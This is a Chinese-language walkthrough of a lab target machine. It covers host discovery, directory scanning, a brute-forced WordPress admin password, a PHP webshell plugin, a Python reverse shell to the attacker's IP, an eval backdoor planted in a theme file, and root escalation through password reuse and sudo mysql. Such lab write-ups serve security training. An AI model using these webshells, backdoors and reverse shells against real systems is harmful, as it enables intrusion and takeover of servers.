








靶机无法获取ip问题 | nmap Ping scan | feroxbuster目录扫描 | burp替换 | wordpress获取shell | 升级full tty | 密码复用提权 | mysql提权

<!-- more -->


## 1. 靶机获取不到ip问题

- **进入系统启动菜单**

​		host+r重启，按shift键进入（也可能是方向上键盘）

- **修改内核加载配置项**

  shift进入后按“e"，进入，修改配置为如下 

   


- **进入单用户模式**

  修改好后，按Ctrl+x进入单用户模式（root)；

- **查看网卡名称**

   


- **修改网络配置的网卡名称**

  ```
  # RedHat Linux
  vi /etc/network/interfaces
  
  # UBUNTU
  vi /etc/netplan/00-installer-config.yaml
  ```

  这台机器是ubuntu，所以我们用上面的第二条命令，修改ens33为上面的enp0s17。

   

  改好后，保存退出即可。


## 2. 探测

### nmap ping scan

使用nmap的ping扫描进行主机发现

```
sudo nmap -sn 172.16.42.0/24
```

扫描结果

```
[root@kali ~]# sudo nmap -sn 172.16.42.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-09 01:03 EST
Nmap scan report for 172.16.42.1
Host is up (0.00021s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.42.204
Host is up (0.00034s latency).
MAC Address: 08:00:27:8E:28:57 (Oracle VirtualBox virtual NIC)
Nmap scan report for 172.16.42.254
Host is up (0.00022s latency).
MAC Address: 00:50:56:FD:C7:E1 (VMware)
Nmap scan report for 172.16.42.147
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 27.99 seconds
```

172.16.42.147是kali的ip，所以目标ip就是172.16.42.204


### nmap全端口扫描

```
nmap -p- 172.16.42.204
```

扫描结果

```
PORT   STATE SERVICE
80/tcp open  http
```

端口服务识别

```
nmap -p 80 -sV 172.16.42.204

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```


### feroxbuster目录扫描

```
feroxbuster --url http://172.16.42.204
```

feroxbuster默认使用seclist字典，需要安装，有点大， 我们这里使用dirb就行了。

```
feroxbuster --url http://172.16.42.204 -w /usr/share/dirb/wordlists/common.txt
```

获取到url: http://172.16.42.204/wordpress/


## 3. web入侵


访问http://172.16.42.204/wordpress/ 

发现加载很慢，


### burp替换

用burp拦截，查看请求记录。发现目标地址是172.16.42.204，发现会请求192.168.159.145



原因是：我们查看第一个请求http://172.16.42.204/wordpress/  发现返回包里面硬编码了192.168.159.145地址。

现在需要我们替换掉里面的ip。

1. 先清空内容



2. 修改响应头




3. 修改响应体

   


4. 重新访问，快速加载成功。


### web密码爆破

访问后台地址：http://172.16.42.204/wordpress/wp-admin  （目录扫描获得）

提示admin账号的密码不对，进行破解

使用字典(如下两个都成功)：

- Web-Fuzzing-Box/Brute/Top/Top100000.txt
- SecLists-master/Passwords/xato-net-10-million-passwords-1000000.txt

爆破出来密码adam14


### wordpress后台获取webshell

wordpress的三种getshell，低版本media文件上传、Apprearance主题的 php模板、修改/上传插件


```php
<?php
/**
 * Plugin Name: Webshell
 * Plugin URI: https://ShadowFl0w.github.io
 * Description: WP Webshell for Pentest
 * Version: 1.0
 * Author: ShadowFlow
 * Auther URI: https://ShadowFl0w.github.io
 * License: https://ShadowFl0w.github.io
 */

if(isset($_GET['cmd']))
	{
		system($_GET['cmd']);
	}
?>
```

压缩上传`zip shell.zip shell.php`，激活

访问： http://172.16.42.204/wordpress/wp-content/plugins/shell.php

执行命令：`http://172.16.42.204/wordpress/wp-content/plugins/shell.php?cmd=whoami`


## 远程控制


### python3反弹shell

查看是否存在nc： `http://172.16.42.204/wordpress/wp-content/plugins/shell.php?cmd=which%20nc`

发现存在，那么用nc反弹

这次用python3反弹shell

```
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.42.147",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```


## 升级full tty

### 修改为bash

确定存在bash

```
[root@kali ~]# ls /bin/bash
/bin/bash
```

因为目标机器是bash，我们是用的zsh，所以切换到bash

```
chsh  -s /bin/bash
```

重启

查看是否切换成功

```
└─# echo $SHELL
/bin/bash
```


### 升级full tty

kali监听

```
nc -lvvp 4444
```

重新反弹


将反弹的shell放到后台

```
control + z
```


下一条指令

```
stty raw -echo
```


将后台的shell放到前台(直接输入fg)

```
fg
```


反弹shell中执行如下命令
```
www-data@wp:/var/www/html/wordpress$ export SHELL=/bin/bash
www-data@wp:/var/www/html/wordpress$ export TERM=screen
www-data@wp:/var/www/html/wordpress$ stty rows 38 columns 116
www-data@wp:/var/www/html/wordpress$ reset
```


### 获取webshell


`vi wp-content/themes/twentytwentyone/404.php`

插入

```
eval($_POST['ant']);
```




使用蚁剑连接


## 密码复用提权

查看用户`cat /etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
wpadmin:x:1001:1001::/home/wpadmin:/bin/bash
```

发现wpadmin账号


执行如下命令提权

su wpadmin (密码使用前面爆破的adam14)

提权成功，获取到第一个flag

```
wpadmin@wp:/var/www/html/wordpress$ cat /home/wpadmin/local.txt
153495edec1b606c24947b1335998bd9
```


## mysql提权

### 查看wordpress配置文件

查看wordpress配置文件`cat /var/www/html/wordpress/wp-config.php`

```
www-data@wp:/var/www/html/wordpress$ cat /var/www/html/wordpress/wp-config.php
<?php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'admin' );
define( 'DB_PASSWORD', 'Wp_Admin#123' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );

define( 'AUTH_KEY',         '-=<%h-&zmo1#bWHqHEib?bJt!)mOL7E+j{x7x;Hsc}t?xm?=kRfunrRmTUP;#8OS' );
define( 'SECURE_AUTH_KEY',  'A5#uw+^B_f:K]WNq@aoXLpD@bmMD/hev^UAf,^lTCX3@a1&7A(qLFS_{I=pYw(ET' );
define( 'LOGGED_IN_KEY',    '~*TFb3]y1^|G9j%?Z@F[63A+AAT<mndFo-H{q0P#Nz/qYN3da@UXyY6YP6`7QNmy' );
define( 'NONCE_KEY',        'bP88<WoD?9;eN0yM9A{+])!$(k[zp{:-.ZS6Fk*snlJN&GXU6Zy_)wEbqk>-? nn' );
define( 'AUTH_SALT',        'SX%VenTL%k&f%i8tFAhtf#svIc|nt.&t~R%zp=:n:Q%e0Ux?k,-j?ZAjZZ%;w1ih' );
define( 'SECURE_AUTH_SALT', '-e Z<w<q8F~Tm7IeNu2nSa^or=*B?bV*yRBa+4; My}cIJ]?L%j14RWghI,D^M^5' );
define( 'LOGGED_IN_SALT',   '}Z}fYC%Mv;;ON/h~$c2c,u[FZ>`YaiscN6UY&HCcXUVl{miUbX4a/ LdJ^AoL/Z{' );
define( 'NONCE_SALT',       'BQPaC,#p}PEcU^eC*Hwss>9~UCEKhv]tox~PN)?B.kSn%tC)V~pZ6RpOBR>80o5+' );

$table_prefix = 'wp_';

define( 'WP_DEBUG', false );

if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}
```

发现数据库账号密码，但是并没有什么卵用


### sudo提权

查看sudo权限

执行`sudo -l `

```
wpadmin@wp:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for wpadmin on wp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wpadmin may run the following commands on wp:
    (root) NOPASSWD: /usr/bin/mysql -u root -D wordpress -p
```

那么执行如下命令(需要加上sudo, 密码就是wpadm账号的密码)

```
/usr/bin/mysql -u root -D wordpress -p
```

进入数据库，当前数据库是root启动，所以是mysql是root权限。


### mysql system提权

```
MariaDB [wordpress]> system id
uid=0(root) gid=0(root) groups=0(root)
```

获取shell

```
MariaDB [wordpress]> system /bin/bash
root@wp:/var/www/html/wordpress#
```

或者不是用system也行，使用`\!`

```
MariaDB [wordpress]> \! id
uid=0(root) gid=0(root) groups=0(root)
MariaDB [wordpress]> \! /bin/bash
root@wp:/var/www/html/wordpress#
```


第二个flag

```
root@wp:/var/www/html/wordpress# cat /root/proof.txt
7efd721c8bfff2937c66235f2d0dbac1
```


